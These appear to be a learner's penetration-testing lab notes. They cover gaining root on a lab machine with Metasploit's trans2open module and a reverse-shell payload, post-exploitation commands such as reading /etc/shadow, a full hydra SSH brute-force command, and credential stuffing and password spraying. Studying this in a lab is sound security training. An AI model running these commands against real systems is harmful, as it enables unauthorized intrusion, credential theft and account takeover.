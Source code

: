 exploitation
========================
# gaining root with metasploit

* search trans2open
* use 1 (linux trans2open)
* options
* set rhosts 10.0.2.4
* show targets
* exploit

notice, this doesnt work, all our terminals are dying! we needed to change the payload from non-staged to staged

* set payload linux/x86/shell_reverse_tcp

![qownnotes-media-yrGHqS](media/qownnotes-media-yrGHqS.png)


# manual exploitation

downloaded OpenFuck > compiled it > ran it and found shi

things we can do on a rooted machine:
* whoami
* hostname
* cat /etc/passwd
* cat /etc/shadow
* ifconfig, ip a, arp, route
    * if we find other networks we can *pivot* to them
* sudo -L to see what users we can transfer to

# bruteforce attacks

hydra: SSH bruteforce tool

`hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://10.0.2.4:22 -t 4 -V`

* -l: the user we want to attack
* -P: specify a list
* ssh://10.0.2.4:22: ssh protocol, our target machine, ssh port (22)
* -t: number of threads
* -V: verbosity

doesnt work just like that (kex algo error in ssh), heres how it gets fixed:
* run `sudo kali-tweaks`
* Hardening
* in "wide compatibility mode", tick on ssh

similar to hydra, theres `auxiliary/scanner/ssh/ssh_login` in metasploit


# credential stuffing and password spraying

credential stuffing: injecting breached account credentials in hopes of account takeover

basically taking these breached passwords and throwing them at a login

foxyproxy

![qownnotes-media-hMLlFJ](media/qownnotes-media-hMLlFJ.png)

password spraying: using known usernames without a known password

we capture a query through a login form with the intercept (we can make a test login), right click on the line where the credentials are, and send to intruder